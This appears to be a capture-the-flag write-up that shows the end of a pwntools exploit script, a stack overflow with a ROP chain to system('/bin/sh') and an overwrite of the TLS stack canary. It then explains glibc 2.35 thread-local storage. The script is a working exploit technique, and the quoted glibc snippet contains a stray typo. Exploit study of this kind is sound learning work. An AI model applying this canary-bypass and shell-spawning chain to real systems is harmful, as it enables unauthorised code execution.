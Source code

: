 ```python
    payload =  cyclic(0x108) # Buffer + Buffer Pointer

    # 2. Using the vulnrability to get a shell
    payload += CHANGED_CANARY
    payload += b"FILLERRR" # will be loaded into rbp by leave instruction, disposable.
    payload += p64(libc_base + RET_RDI) # value passed by registers in x64
    payload += p64(libc_base + BIN_SH)
    payload += p64(libc_base + RETN)
    payload += p64(libc_base + SYSTEM_LIBC_OFFSET)

    # 3. Using the vulnrability to overwrite the canary
    payload = payload.ljust(0x910) # offset for overwriting fs:0x10
    payload += p64(BSS_LOCATION - 0x972)
    payload += cyclic(16) # offset of fs:0x10 to fs:0x28
    payload += CHANGED_CANARY
    con.send(payload)
    con.interactive()

if __name__ == "__main__":
    main()
```

# Deep dive
I don't feel like I fully understand what happened here, and that means that the challenge is not completly done!

Let's take a look at the inner workings of glibc (2.35) to better understand what happens here.


So what happens in this exploit?
We clearly overflow the stack, and than we overwrote some internal variable that is saved in the same region.
## What is TLS?
TLS stands for `Thread Local Storage`.
The TLS is a location in memory where the thread is saving it's private storage locally.

Looking at `pthread_create.c` from `glibc-2.35` we can take a look at the function `create_thread`, in that function we can see that TLS points to the same location that pd points to.

`allocatestack.c`
```c
static int
allocate_stack (const struct pthread_attr *attr, struct pthread **pdp, void **stack, size_t *stacksize)
{
...
	TLS_DEFINE_INIT_TP (tp, pd);
	struct clone_args args =
	{
		.flags = clone_flags,
		.pidfd = (uintptr_t) &pd->tid,
		.parent_tid = (uintptr_t) &pd->tid,
		.child_tid = (uintptr_t) &pd->tid,
		.stack = (uintptr_t) stackaddr.,
		.tls = (uintptr_t) tp,
	};
}
```
